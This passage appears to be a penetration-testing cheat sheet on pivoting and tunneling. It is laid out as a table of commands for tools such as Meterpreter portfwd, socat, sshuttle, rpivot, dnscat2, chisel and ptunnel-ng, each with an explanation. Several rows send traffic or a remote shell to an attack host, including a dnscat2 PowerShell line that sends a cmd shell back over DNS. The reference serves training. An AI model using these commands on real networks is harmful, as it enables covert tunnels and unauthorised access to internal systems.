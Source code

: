 |`xfreerdp /v:localhost:3300 /u:victor /p:pass@123`|Uses xfreerdp to connect to a remote host through localhost:3300 using a set of credentials. Port forwarding rules must be in place for this to work properly.|
|`netstat -antp`|Used to display all (`-a`) active network connections with associated process IDs. `-t` displays only TCP connections.`-n` displays only numerical addresses. `-p` displays process IDs associated with each displayed connection.|
|`meterpreter > portfwd add -R -l 8081 -p 1234 -L <IPaddressofAttackHost>`|Meterpreter-based portfwd command that adds a forwarding rule that directs traffic coming on on port 8081 to the port `1234` listening on the IP address of the Attack Host.|
|`meterpreter > bg`|Meterpreter-based command used to run the selected metepreter session in the background. Similar to background a process in Linux|
|`socat TCP4-LISTEN:8080,fork TCP4:<IPaddressofAttackHost>:80`|Uses Socat to listen on port 8080 and then to fork when the connection is received. It will then connect to the attack host on port 80.|
|`socat TCP4-LISTEN:8080,fork TCP4:<IPaddressofTarget>:8443`|Uses Socat to listen on port 8080 and then to fork when the connection is received. Then it will connect to the target host on port 8443.|
|`plink -D 9050 ubuntu@<IPaddressofTarget>`|Windows-based command that uses PuTTY's Plink.exe to perform SSH dynamic port forwarding and establishes an SSH tunnel with the specified target. This will allow for proxy chaining on a Windows host, similar to what is done with Proxychains on a Linux-based host.|
|`sudo apt-get install sshuttle`|Uses apt-get to install the tool sshuttle.|
|`sudo sshuttle -r ubuntu@10.129.202.64 172.16.5.0 -v`|Runs sshuttle, connects to the target host, and creates a route to the 172.16.5.0 network so traffic can pass from the attack host to hosts on the internal network (`172.16.5.0`).|
|`sudo git clone https://github.com/klsecservices/rpivot.git`|Clones the rpivot project GitHub repository.|
|`sudo apt-get install python2.7`|Uses apt-get to install python2.7.|
|`python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0`|Used to run the rpivot server (`server.py`) on proxy port `9050`, server port `9999` and listening on any IP address (`0.0.0.0`).|
|`scp -r rpivot ubuntu@<IPaddressOfTarget>`|Uses secure copy protocol to transfer an entire directory and all of its contents to a specified target.|
|`python2.7 client.py --server-ip 10.10.14.18 --server-port 9999`|Used to run the rpivot client (`client.py`) to connect to the specified rpivot server on the appropriate port.|
|`proxychains firefox-esr <IPaddressofTargetWebServer>:80`|Opens firefox with Proxychains and sends the web request through a SOCKS proxy server to the specified destination web server.|
|`python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>`|Use to run the rpivot client to connect to a web server that is using HTTP-Proxy with NTLM authentication.|
|`netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.42.198 connectport=3389 connectaddress=172.16.5.25`|Windows-based command that uses `netsh.exe` to configure a portproxy rule called `v4tov4` that listens on port 8080 and forwards connections to the destination 172.16.5.25 on port 3389.|
|`netsh.exe interface portproxy show v4tov4`|Windows-based command used to view the configurations of a portproxy rule called v4tov4.|
|`git clone https://github.com/iagox86/dnscat2.git`|Clones the `dnscat2` project GitHub repository.|
|`sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache`|Used to start the dnscat2.rb server running on the specified IP address, port (`53`) & using the domain `inlanefreight.local` with the no-cache option enabled.|
|`git clone https://github.com/lukebaggett/dnscat2-powershell.git`|Clones the dnscat2-powershell project Github repository.|
|`Import-Module dnscat2.ps1`|PowerShell command used to import the dnscat2.ps1 tool.|
|`Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd`|PowerShell command used to connect to a specified dnscat2 server using a IP address, domain name and preshared secret. The client will send back a shell connection to the server (`-Exec cmd`).|
|`dnscat2> ?`|Used to list dnscat2 options.|
|`dnscat2> window -i 1`|Used to interact with an established dnscat2 session.|
|`./chisel server -v -p 1234 --socks5`|Used to start a chisel server in verbose mode listening on port `1234` using SOCKS version 5.|
|`./chisel client -v 10.129.202.64:1234 socks`|Used to connect to a chisel server at the specified IP address & port using socks.|
|`git clone https://github.com/utoni/ptunnel-ng.git`|Clones the ptunnel-ng project GitHub repository.|
|`sudo ./autogen.sh`|Used to run the autogen.sh shell script that will build the necessary ptunnel-ng files.|
|`sudo ./ptunnel-ng -r10.129.202.64 -R22`|Used to start the ptunnel-ng server on the specified IP address (`-r`) and corresponding port (`-R22`).|
|`sudo ./ptunnel-ng -p10.129.202.64 -l2222 -r10.129.202.64 -R22`|Used to connect to a specified ptunnel-ng server through local port 2222 (`-l2222`).|
|`ssh -p2222 -lubuntu 127.0.0.1`|SSH command used to connect to an SSH server through a local port. This can be used to tunnel SSH traffic through an ICMP tunnel.|
|`regsvr32.exe SocksOverRDP-Plugin.dll`|Windows-based command used to register the SocksOverRDP-PLugin.dll.|
|`netstat -antb \|findstr 1080`|Windows-based command used to list TCP network connections listening on port 1080.|
